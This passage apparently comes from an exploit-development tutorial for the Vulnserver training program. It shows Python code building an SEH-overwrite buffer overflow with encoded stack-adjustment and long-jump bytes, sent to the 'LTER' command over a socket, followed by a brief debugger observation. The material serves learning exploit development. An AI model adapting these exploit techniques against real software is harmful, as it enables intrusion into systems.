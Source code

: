 ```python

longJump = "\x54\x5b"
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x11\x11\x77\x62" ## add  eax, 0x62771111
longJump += "\x05\x11\x11\x66\x62" ## add  eax, 0x62661111
longJump += "\x05\x11\x11\x55\x42" ## add  eax, 0x42551111
longJump += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
longJump += "\x50"                 ## push eax
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x41\x76\x65\x07" ## add  eax, 0x07657641
longJump += "\x05\x40\x75\x54\x06" ## add  eax, 0x06547540
longJump += "\x50"

espAdj3 = '\x54\x58\x2c\x4b\x50\x5c'

buffer = espAdj3
buffer += 'A' * (3427 - len(espAdj3))
buffer += espAdj2
buffer += longJump
buffer += 'A' * (3514 - 3427 - len(espAdj2) - len(longJump))
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

After stepping through it, we see that `ESP` is pointed at `018BFF6C` just like we wanted. 

![](/assets/images/CTP/finaladj.JPG)
